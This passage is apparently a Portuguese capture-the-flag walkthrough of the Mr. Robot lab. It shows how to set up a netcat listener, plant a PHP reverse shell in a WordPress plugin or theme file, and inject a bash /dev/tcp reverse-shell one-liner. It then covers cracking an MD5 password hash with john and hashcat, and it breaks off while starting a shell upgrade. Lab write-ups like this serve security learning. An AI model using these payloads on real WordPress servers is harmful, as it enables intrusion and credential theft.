 nc -lvp 53

Vale falar que você pode colocar a porta que preferir, eu geralmente utilizo 53, 4444 ou 1234 por costume. A 53 acaba por ser boa muitas das vezes, por ser uma porta de dns e isso faz com que ela seja 'raramente' bloqueada por firewall.

(outras opções de uso - use o HELP do programa para ajudar e entender melhor o comando) nc -lvnp 53 nc -lp1234 -vv nc -lvnp 53 -vv rlwrap nc -lvnp 53 nc -lnp53 -vv

Agora, vamos para a parte da ação dentro do wordpress. Podemos utilizar o 'php-rever-shell' que temos no kali: "/usr/share/webshells/php/php-reverse-shell.php" e colocar nosso IP e PORTA, depois add este codigo como um novo plugin e ativar ele na lista de plugins.

oou;;; copiar todo seu codigo php-reverse-shell ( podendo ser o do 'pentestmonkey' ) e editar uma página específica para colar o seu código dentro. Por exemlo, substituindo o código dentro do archives.php ou do 404 template. -- Não esquecer de colocar o IP da máquina e a porta no código. Ao fazer o update do arquivo, podemos até ir em 10.10.70.104/wp-content/themes/twentyfifteen/archive.php

oouu;;; podemos editar um plugin que é utilizado e ativá-lo se necessário, colocando o código abaixo em alguma parte estratégica que fará sua execução: exec("/bin/bash -c 'bash -i > /dev/tcp/$meuIP/$PortaNC 0>&1'"); -> colocar isso na edição de algum plugin, como Hello.

\--- resumindo;.

opções de php-reverse-shell -> com add um novo plugin com codigo pgp malicioso para aplicar dps que tiver ouvindo com netcat; editar uma pagina php com o codigo de uma maliciosa, como fizemos editar plugin conhecido como o hello, plugin q fica digitando colocando versos da letra da musica do louis armstrong em cada pagina

***

Pronto -> agr podemos ver que na tela do NC que estava ouvindo, já teve conexão.

uma vez conectado; podemos fzr alguns comandos simples, como: whoami hostname

ls /home cd /home/robot ls -la -> ver que apenas o usuário robot pode ler o arquivo da flag --> perceber o arquivo password md5 -> ver a senha decriptando a hash md5 --> podemos verificar se é, de fato, uma hash md5 com o hash-identifier (é mesmo) ---> quebrar a hash online ou por comando ----> daq a pouco, vamos poder perceber que não temos interação total com o shell.

cat password.raw-md5 c3fcd3d76192e4007dfb496cca67e13b

\--quebrando hash podemos usar o john the ripper para quebrar a md5 ou quebrar online.

(em outra sessao do terminal) salvar a hash num arquivo -> md5.hash ou md5.txt john md5.hash --wordlist=fsociety.dic --format=Raw-MD5 ou john --format=Raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt md5.txt ou hashcat 'c3fcd3d76192e4007dfb496cca67e13b' /usr/share/wordlists/rockyou.txt --force ou usar plataformas online que quebram, como https://crackstation.net/ que quebrou perfeitamente a hash. Site mais recomendado: https://hashes.com/en/decrypt/hash

veremos que a hash md5 era: abcdefghijklmnopqrstuvwxyz cryptool: abcdefghijklmnopqrstuvwxyz -> c3fcd3d76192e4007dfb496cca67e13b

\-- Agora que sabemos a senha, podemos tentar trocar de usuário, certo? Porém, vai dar um erro de que precisa ser feito por um terminal. Não estamos tendo interação com um terminal e se quisermos usar o comando 'switch user' (su) precisamos de tal interação. Para isso, vamos precisar usar python para nos ajudar a 'gerar' o nosso pseudo terminal

whereis python
